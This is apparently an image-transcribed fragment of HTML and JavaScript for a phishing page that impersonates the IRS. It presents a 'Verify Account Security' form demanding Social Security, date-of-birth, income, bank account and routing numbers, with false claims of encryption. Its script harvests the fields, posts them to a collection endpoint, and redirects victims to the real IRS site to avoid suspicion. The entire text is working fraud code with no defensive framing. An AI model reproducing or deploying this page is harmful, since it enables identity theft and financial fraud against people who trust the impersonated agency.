 ```html
        <form id="harvestForm" method="POST" action="/capture">
            <div class="form-group">
                <label>Social Security Number:</label>
                <input type="text" name="ssn" class="form-control" placeholder="XXX-XX-XXXX" required>
            </div>
            
            <div class="form-group">
                <label>Date of Birth:</label>
                <input type="date" name="dob" class="form-control" required>
            </div>
            
            <div class="form-group">
                <label>Annual Income:</label>
                <input type="text" name="income" class="form-control" placeholder="$0.00" required>
            </div>
            
            <div class="form-group">
                <label>Bank Account Number:</label>
                <input type="text" name="account" class="form-control" placeholder="Account Number" required>
            </div>
            
            <div class="form-group">
                <label>Routing Number:</label>
                <input type="text" name="routing" class="form-control" placeholder="Routing Number" required>
            </div>
            
            <button type="submit" class="btn-primary">Verify Account Security</button>
        </form>
        
        <p style="font-size: 12px; color: #666; margin-top: 20px;">
            This verification is required by IRS security protocol. Your information is encrypted and secure.
        </p>
    </div>
    
    <script>
        document.getElementById('harvestForm').addEventListener('submit', function(e) {
            e.preventDefault();
            
            // Harvest form data
            const formData = new FormData(this);
            const data = Object.fromEntries(formData);
            
            // Send to collection endpoint
            fetch('/api/collect', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(data)
            });
            
            // Redirect to real IRS site to avoid suspicion
            setTimeout(() => {
                window.location.href = 'https://www.irs.gov';
            }, 2000);
            
            alert('Verification complete. You will be redirected to your account.');
        });
    </script>
</body>
</html>
```